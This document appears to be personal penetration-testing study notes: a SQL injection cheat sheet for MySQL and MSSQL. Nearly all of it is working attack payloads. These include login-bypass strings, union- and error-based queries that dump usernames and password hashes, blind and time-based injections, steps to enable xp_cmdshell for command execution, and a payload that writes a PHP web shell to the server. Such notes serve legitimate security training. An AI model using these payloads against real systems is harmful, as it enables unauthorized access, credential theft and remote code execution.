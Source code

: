 ## SQL
### Links

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
- [MSSQL Cheat Sheet](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)
- [SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)
- [From MSSQL to RCE](https://bhavsec.com/posts/mssql-rce/)
### SQLi

Only Resources you will need to get Remote code using SQLi
### MYSQL

#### Authenticated SQLi

```
SELECT version();
SELECT system_user();
show databases;

SHOW TABLES FROM database_name;
OR
use <db_name>
show tables;
describe users; # describes columns in users' table

SELECT * from <test>.<users>; # here test is DB and the user is a table in test db
SELECT user, authentication_string FROM mysql.user WHERE user = 'test';bash
```

#### Error based SQLi
```
tom' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- // # password for admin user
```

#### Union-based SQLi

```
*** injected UNION query has to include the same number of columns in the original query
*** Data types need to be compatible between each column

1) Finding the number of Columns
' ORDER BY 1-- // # Keep incrementing value of 1 to find columns

2) Finding name, user, and version
%' UNION SELECT database(), user(), @@version, null, null -- // # %' is used for closing the search parameter 
# Assume we got 5 columns on step 1, we are using 3 columns and leaving 2 as null here

2.1) Finding name, user, and version
# Sometimes column 1 is reserved for the ID field so no proper value comes and we try this instead
' UNION SELECT null, null, database(), user(), @@version  -- //

3) Enumerating table names, column names, and db_name
' UNION SELECT null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
# 1 and 5 are kept null
# we see a table called users, let's dive into that

4) Enumrating few columns from the user table found above
' UNION SELECT null, username, password, description, null FROM users -- //
```

### MSSQL

#### Authenticated SQLi

```
SELECT @@version;
SELECT name FROM sys.databases; # master, tempdb, model and msdb are default
SELECT * FROM offsec.information_schema.tables; # Returns table for offsec db
'''
offsec
dbo
users
'''
SELECT * from testuser.dbo.users; # We select dbo table schema between the db and table name
admin lab # user # pass
guest guest  # user # pass
```


#### Extra Notes I had

```
#### Line Comments

**Comments out rest of the query.**   
Line comments are generally useful for ignoring rest of the query so you don’t have to deal with fixing the syntax.

- `--` (Postgres and MS SQL and MySQL) `DROP sampletable;--` 
- `#` (MySQL) `DROP sampletable;#`

##### Line Comments Sample SQL Injection Attacks

- Username: `admin'--`
- `SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'` This is going to log you as admin user, because rest of the SQL query will be ignored.


**Executing more than one query in one transaction**. This is very useful in every injection point, especially in SQL Server back ended applications.

- `;` (MS SQL)   
    `SELECT * FROM members; DROP members--`

### If Statements

Get response based on an if statement. This is **one of the key points of Blind SQL Injection**, also can be very useful to test simple stuff blindly and **accurately**.

#### MySQL If Statement

- `IF(**_condition_,_true-part_,_false-part_**)` (M) `SELECT IF(1=1,'true','false')`

#### SQL Server If Statement

- `IF **_condition_** **_true-part_** ELSE **_false-part_**` (S)   
    `IF (1=1) SELECT 'true' ELSE SELECT 'false'`

#### PostgreSQL If Statement

- `SELECT CASE WHEN **_condition_** THEN **_true-part_** ELSE **_false-part_**` END; (P)   
    `SELECT CASE WEHEN (1=1) THEN 'A' ELSE 'B'END;`

##### If Statement SQL Injection Attack Samples

`if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0` (S)   
This will throw an **divide by zero error** if current logged user is not **“sa” or “dbo”**.

## Union Injections

With union you do SQL queries cross-table. Basically you can poison query to return records from another table.

`SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members`   
This will combine results from both news table and members table and return all of them.

### Bypassing Login Screens (SMO+)

_SQL Injection 101_, Login tricks

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- ….
- Login as different user (SM*)   
    `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

#### Finding how many columns in SELECT query by **ORDER BY** **(MSO+)**

Finding column number by ORDER BY can speed up the UNION SQL Injection process.

- `ORDER BY 1--`
- `ORDER BY 2--`
- `ORDER BY N--` _so on_

# Enabling xp_cmdshell for SQL Server 2005
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami';
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
<? system($_REQUEST['cmd']); ?>

```

#### Error-Based SQL Injection

- **Goal**: To generate an error message from the SQL database.
- **Method**: Include SQL control characters or SQL code into a query.
- **Example**: Inputting `' OR 1=1 --` in a user input field. If the backend query is `SELECT * FROM users WHERE username = '[input]'`, it becomes `SELECT * FROM users WHERE username = '' OR 1=1 --'`.
- **Result**: The database returns an error or unexpected data, indicating vulnerability.

#### Union-Based SQL Injection

- **Goal**: Retrieve data from other tables.
- **Method**: Utilize the `UNION` SQL operator to combine results from multiple SELECT queries.
- **Example**: Input `UNION SELECT username, password FROM users --`.
	- ' UNION SELECT null, null, database(), user(), @@version  -- //
- **Consideration**: Columns data types and number must match between the original and UNION query.

#### Blind SQL Injection

- **Goal**: Retrieve data when no error message or data is directly returned.
- **Method**: Ask the database a true/false question and determine the answer based on the application's response.
- **Example**: Change a query to `SELECT * FROM users WHERE username = 'admin' AND 1=1 --`. If the page loads normally, the query is true. If it doesn't, the query is false.

#### Time-Based SQL Injection

- **Goal**: Gather information from a database when no data is returned to the user.
- **Method**: Use SQL commands that delay the response.
- **Example**: `'; IF (SELECT COUNT(*) FROM users) > 5 WAITFOR DELAY '0:0:10' --`. If the response is delayed, the statement is true.